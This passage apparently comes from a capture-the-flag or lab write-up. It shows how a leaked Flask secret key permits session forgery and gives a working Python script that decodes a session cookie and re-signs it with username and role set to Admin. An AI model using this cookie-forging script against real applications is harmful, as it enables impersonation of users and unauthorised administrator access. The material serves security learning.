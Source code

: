 ![](images/files5.png)

Finding the Flask secret key of '$hallICompareTHEE2aSummersday' in the staff_flask_secret_key file, an attacker is now able to log in as any desired user. Using the Python script below, an attacker can generate a session cookie for another user using the Flask secret key, and use this cookie to impersonate and login as them.

```python
# Reference: https://ctftime.org/writeup/11812
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

KEY = '$hallICompareTHEE2aSummersday'

def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.loads(cookie_str)


def encode_flask_cookie(secret_key, cookie):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.dumps(cookie)


if __name__ == '__main__':
    # Any cookie - determine structure of decoded payload
    cookie = 'eyJyb2xlIjp7IiBiIjoiVTNSaFptWT0ifSwidXNlcm5hbWUiOiJ0ZXN0In0.YM3-0Q.Wr7mv0JrqapDElKfzFs2Vp7caHM'
    cookie_val = (decode_flask_cookie(KEY, cookie))
    print(cookie_val)
    # Generate cookie to login as any user with specified role
    new_cookie = dict(cookie_val)
    new_cookie['username'] = 'Admin'
    new_cookie['role'] = b'Admin'
    print(encode_flask_cookie(KEY, new_cookie)) 
```
